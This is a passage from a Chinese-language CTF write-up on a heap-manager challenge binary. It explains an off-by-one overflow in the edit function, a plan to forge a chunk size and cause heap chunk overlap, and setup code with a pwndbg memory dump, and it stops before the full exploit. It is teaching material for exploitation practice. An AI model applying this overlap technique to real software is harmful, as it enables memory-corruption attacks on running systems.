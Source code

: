### 基本信息 

```shell
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

程序为 64 位动态链接程序，主要开启了 Canary 保护与 NX 保护，还有一点就是 ``RELRO:    Partial RELRO`` GOT 表可以修改。

### 基本功能

程序是一个堆管理器，有增删查改功能。

每个 content 堆块用一个 0x10 的结构体堆去维护，结构体如下：

```c
struct chunk{
    size_t size;		//context 大小
    _QWORD *chunk;		//context 指针
}
```

### 漏洞函数

edit 、 show 功能都存在 off-by-one ，两者出现逻辑、地方一致，造成影响的 edit ，这里就以 edit 叙述。

![](https://mrskye.cn-gd.ufileos.com/img/2020-08-02-7XoD5kSKWk9XAaVb.png)

可以看到 19 行写入数据的时候传入的长度参数被故意加 1 了，造成溢出可控的一字节。

### 思路

1. 利用 off-by-one 覆盖下一个 chunk 的 size （这里修改的是结构体 chunk ），伪造 chunk 大小
2. 释放被溢出 chunk 后，申请伪造 chunk ，造成 chunk overlap（堆重叠），从而控制新结构体的指针。

先布置好内存空间：

```python
create(0x18,'a'*0x10)#0
create(0x10,'b'*0x10)#1
```

chunk0 content 大小要求是用到下一个 chunk 的 prev_size 用于溢出修改下一个 chunk 的 size 。

chunk1 content 大小最好是 0x10 ，这样我们溢出修改、释放 chunk1 后再申请一个 chunk 结构体就会用这个 chunk1 content 空间（为什么不用原来的？[小结](# 小结)）。当然也可以用其他大小，自行调试即可。这里举一个例子：chunk1 content size 0x30 ，溢出修改结构体 size 为：0x71 。

堆结构如下：

```
pwndbg> x /20gx 0xac4000
0xac4000:	0x0000000000000000	0x0000000000000021
0xac4010:	0x0000000000000018	0x0000000000ac4030
0xac4020:	0x0000000000000000	0x0000000000000021
0xac4030:	0x6161616161616161	0x6161616161616161
0xac4040:	0x0000000000000000	0x0000000000000021
0xac4050:	0x0000000000000010	0x0000000000ac4070
0xac4060:	0x0000000000000000	0x0000000000000021
0xac4070:	0x6262626262626262	0x6262626262626262
0xac4080:	0x0000000000000000	0x0000000000020f81
0xac4090:	0x0000000000000000	0x0000000000000000
```
